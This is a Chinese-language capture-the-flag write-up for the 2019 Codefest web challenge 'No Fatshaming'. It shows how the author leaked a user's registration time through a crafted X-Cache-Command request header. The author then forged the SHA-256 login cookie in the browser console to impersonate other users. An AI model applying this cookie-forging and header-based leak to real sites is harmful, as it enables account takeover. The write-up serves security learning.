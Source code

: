 難度 :  :star::star:
  
![question](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic1.png)
![question2](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic2.png)
![question3](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic3.png)
![question4](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic4.png)
![question5](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/pic5.png)

解題流程: <br>
        很簡潔的網頁, 只有登入和註冊, 登入後什麼東西都沒有 <br>
        用 sqlmap 和 xss 都沒有結果, 只能開始看看前端的 code <br>
        發現它引入一個客製化的 challenge.js <br>
        ![bug](https://github.com/dreamisadream/CTF/blob/master/CTF_CONTEST/2019/codefest/No%20Fatshaming/bug.png)<br>
        進去一看發現是認證的 code , 認證 code 寫在前端往往不怎麼安全 <br>
        看一下 code 寫些什麼 <br>
        首先, 命名的方式很差所以先[美化](http://www.jsnice.org/)一下<br>
        美化後的結果放在 nice.js <br>
        從 nice.js 得知, 當按下 Log in! 後會去執行 setup
```javascript=
$("#login-form")["submit"]((result) => {
    result["preventDefault"]();
    setUpUserAutosuggest();
  });
```
 setup  會去檢查註冊時間和 cookie 設的是否一樣
 ``` javascript=
 if (data["time"] != val) {
              config["failure"]();
}
```
一樣的話執行 login 否則執行 doLogin <br>
而 login 會檢查 id 和 cck <br>
其中, cck 由 factory 計算而來 <br>
因此, 思緒就清楚了, <b>我們要的是 id cck 和 time</b><br>
id 可以自行控制 , cck 由 id 和 time 決定 , 因此關鍵在 time <br>
而我們得知 time 會在 setup 被用到, 所以設計自己的 setup 並輸入到 console <br>
```javascript=
function setup(id) {
    $["ajax"]({
          "url" : "api/login/",
          "type" : "POST",
          "headers" : {
            "X-Cache-Command" : "META",
            "X-Cache-User" : id
          },
          "success" : (data) => {
                console.log(data);
            }
    });
}
```
( 什麼都不要檢查, 把接收到的 data 全部吐出來 )<br>
輸入 setup(1), 我們就拿到 time 了 <br>
接著我們透過 _build 幫我們設定 cookie <br>
```javascript=
function factory(spec) {
    var shaObj = new jsSHA("SHA-256", "TEXT");
    var existing = spec["id"] + " 000 114328 000 " + spec["time"];
    shaObj["update"](existing);
    var KongPluginsService = shaObj["getHash"]("HEX");
    return KongPluginsService;
}
function _build(value) {
    Cookies["set"]("id", value["id"]);
    Cookies["set"]("time", value["time"]);
    Cookies["set"]("cck", factory(value));
  }
```
因為 _build 會用到 factory 所以 factory 也要一併傳入 <br>
接著, 輸入 _build({"id":"1", "time": "剛剛接收到的"}) <br>
最後, 將 username 也就是 id 輸入 1, 按 Log in! 就能成功進去了 , 但 flag 在 id=6 的身上 <br>
